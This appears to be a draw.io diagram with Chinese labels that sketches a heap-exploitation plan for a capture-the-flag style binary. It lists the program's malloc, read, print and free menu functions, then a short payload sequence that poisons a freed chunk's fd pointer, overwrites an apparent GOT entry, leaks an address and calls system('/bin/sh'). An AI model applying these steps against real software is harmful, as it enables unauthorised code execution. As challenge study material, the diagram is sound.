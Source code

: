 <mxfile version="24.2.1" type="github">
  <diagram name="第 1 页" id="erWBEHMT_IxAKbOyUFVJ">
    <mxGraphModel dx="1949" dy="537" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="827" pageHeight="1169" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-1" value="一共有5个方法：&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;func1 malloc(0x60)&lt;/div&gt;&lt;div&gt;func2 read&amp;nbsp; 0x40&lt;/div&gt;&lt;div&gt;func3 print&lt;/div&gt;&lt;div&gt;func4 free&lt;/div&gt;&lt;div&gt;func5 malloc 0x60&lt;/div&gt;&lt;div&gt;read 0x60&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="30" y="10" width="240" height="160" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-2" value="&lt;div&gt;攻击思路：&lt;/div&gt;add()&lt;div&gt;free()&lt;/div&gt;&lt;div&gt;edit(p64(0x60207d))&amp;nbsp;&lt;br&gt;&lt;/div&gt;&lt;div&gt;add()&lt;/div&gt;&lt;div&gt;func5&amp;nbsp;b&#39;aaa&#39;+p64(0)*3+p64(0x602018-8)+p64(0)*4 &amp;nbsp;&lt;/div&gt;&lt;div&gt;show&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;edit(b&#39;/bin/sh\x00&#39;+p64(system_addr))&lt;br&gt;&lt;/div&gt;&lt;div&gt;free&lt;/div&gt;" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="310" y="170" width="280" height="170" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-3" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;add()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="827" y="160" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-5" value=" bss p=0x6020A8" style="text;whiteSpace=wrap;" vertex="1" parent="1">
          <mxGeometry x="-140" y="40" width="100" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-7" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-6">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="970" y="245" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-6" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="860" y="230" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-9" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="170" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-10" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="200" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-11" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="230" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-12" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="970" y="260" width="120" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-15" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-13" target="IB8mfc5W1hkk9r3mwRGL-14">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-13" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1380" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-14" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-18" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-19">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1375" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-19" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1265" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-20" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-21" value="fd" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-22" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1375" y="180" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-23" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;free()&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1190" y="80" width="60" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-24" value="&lt;span style=&quot;color: rgb(0, 0, 0); font-family: Helvetica; font-size: 12px; font-style: normal; font-variant-ligatures: normal; font-variant-caps: normal; font-weight: 400; letter-spacing: normal; orphans: 2; text-align: center; text-indent: 0px; text-transform: none; widows: 2; word-spacing: 0px; -webkit-text-stroke-width: 0px; white-space: normal; background-color: rgb(251, 251, 251); text-decoration-thickness: initial; text-decoration-style: initial; text-decoration-color: initial; display: inline !important; float: none;&quot;&gt;edit(p64(0x60207d))&amp;nbsp;&lt;/span&gt;" style="text;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1580" y="120" width="140" height="40" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-25" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=0.5;exitY=1;exitDx=0;exitDy=0;entryX=0.5;entryY=0;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-26" target="IB8mfc5W1hkk9r3mwRGL-27">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-26" value="bin" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1825" y="30" width="60" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-27" value="ps" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="120" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-28" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;exitX=1;exitY=0.5;exitDx=0;exitDy=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="IB8mfc5W1hkk9r3mwRGL-29">
          <mxGeometry relative="1" as="geometry">
            <mxPoint x="1820" y="170" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-29" value="p" style="text;strokeColor=none;align=center;fillColor=none;html=1;verticalAlign=middle;whiteSpace=wrap;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1710" y="155" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-30" value="s" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="140" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-31" value="0x60207d" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="160" width="70" height="20" as="geometry" />
        </mxCell>
        <mxCell id="IB8mfc5W1hkk9r3mwRGL-32" value="" style="rounded=0;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1820" y="180" width="70" height="20" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
